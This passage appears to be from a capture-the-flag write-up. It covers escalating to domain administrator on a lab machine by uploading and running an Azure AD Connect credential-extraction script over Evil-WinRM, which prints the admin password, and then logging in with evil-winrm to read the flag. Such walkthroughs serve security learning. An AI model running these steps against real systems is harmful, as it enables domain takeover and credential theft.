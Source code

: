 

### Exploiting Azure AD Connect

Now that we have the exploit script, we simply need to upload and execute it.

```powershell
*Evil-WinRM* PS C:\Users\mhope\Documents> upload exploit.ps1 .
Info: Uploading exploit.ps1 to C:\Users\mhope\Documents\.

                                                             
Data: 2340 bytes of 2340 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\mhope\Documents> powershell -file exploit.ps1
AD Connect Sync Credential Extract POC (@_xpn_)

Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!
```

Executing the script we get the credentials for the domain administrator.

### Getting a shell as administrator

Now that we have the credentials for the domain administrator, we can login using evil-winrm and read root.txt.

```powershell
root@darkness:~# evil-winrm -i 10.10.10.172 -u administrator -p 'd0m@in4dminyeah!'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
12909***************************
```